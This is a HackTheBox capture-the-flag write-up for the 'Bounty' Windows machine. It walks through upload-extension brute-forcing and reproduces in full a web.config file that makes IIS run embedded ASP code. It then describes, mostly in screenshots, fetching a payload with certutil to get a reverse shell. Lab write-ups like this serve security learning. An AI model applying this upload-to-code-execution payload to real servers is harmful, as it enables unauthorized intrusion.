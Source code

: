 ```yaml
---
title: HackTheBox_Bounty w/o Metasploit
date: 2024-07-28 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,easy,incomplete]
---
```



## HTB - Bounty

![Image](/assets/img/bounty/bounty.png)

## Enumeration

### Nmap Scan

![Image](/assets/img/bounty/Untitled.png)

### Homepage

![Image](/assets/img/bounty/Untitled_1.png)

### Dirbusting Results

![Image](/assets/img/bounty/Untitled_2.png)

### Transfer.aspx

![Image](/assets/img/bounty/Untitled_3.png)

## Vulnerabilities

### Transfer.aspx Directory

Asp through webconfig [https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## Exploitation

### Upload Extensions

Let's see what extensions we can upload to the server

First, let's send the upload action to a repeater

![Image](/assets/img/bounty/Untitled_4.png)

### Creating Payload

Now let's create our payload

![Image](/assets/img/bounty/Untitled_5.png)

Let this be our `extensions.txt` file

![Image](/assets/img/bounty/Untitled_6.png)

We send the request to the intruder and then add our payload

![Image](/assets/img/bounty/Untitled_7.png)

### Defining Payload

Here we define the payload

![Image](/assets/img/bounty/Untitled_8.png)

OK, so with this we can tell that the server accepts uploads with these extensions

![Image](/assets/img/bounty/Untitled_9.png)

### Using Config File

[https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

This config file allows us to upload ASP files, which could give us a shell, so let's use this

```xml

`<?xml` `version="1.0"` `encoding="UTF-8"?>`

`<configuration>`

`<system.webServer>`

`<handlers` `accessPolicy="Read, Script, Write">`

`<add` `name="web_config"` `path="*.config"` `verb="*"` `modules="IsapiModule"` `scriptProcessor="%windir%\system32\inetsrv\asp.dll"` `resourceType="Unspecified"` `requireAccess="Write"` `preCondition="bitness64"` `/>`

`</handlers>`

`<security>`

`<requestFiltering>`

`<fileExtensions>`

`<remove` `fileExtension=".config"` `/>`

`</fileExtensions>`

`<hiddenSegments>`

`<remove` `segment="web.config"` `/>`

`</hiddenSegments>`

`</requestFiltering>`

`</security>`

`</system.webServer>`

`</configuration>`

`<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!`

`<%`

`Response.write("-"&"->")`

`' it is running the ASP code if you can see 3 by opening the web.config file!`

`Response.write(1+2)`

`Response.write("<!-"&"-")`

`%>`

- `->`

```

### Uploading Shell

Now let's upload this file on the server

![Image](/assets/img/bounty/Untitled_10.png)

![Image](/assets/img/bounty/Untitled_11.png)

It's displaying 3, which means our web.config file is working properly

### Getting a Shell

Now we can go ahead and try getting a shell

![Image](/assets/img/bounty/Untitled_12.png)

Alright, we have made our payload, now time to get it running on the victim's box

### Setting Up

Setting up our Python server and netcat

![Image](/assets/img/bounty/Untitled_13.png)

### Using Certutil

We will now use certutil to get the exe payload

![Image](/assets/img/bounty/Untitled_14.png)

### Uploading and Refreshing

And on uploading, then refreshing the uploadedfiles/webconfig dir

We have our shell

![Image](/assets/img/bounty/Untitled_15.png)

**Note: Shell kept bugging out, will update this in the future**


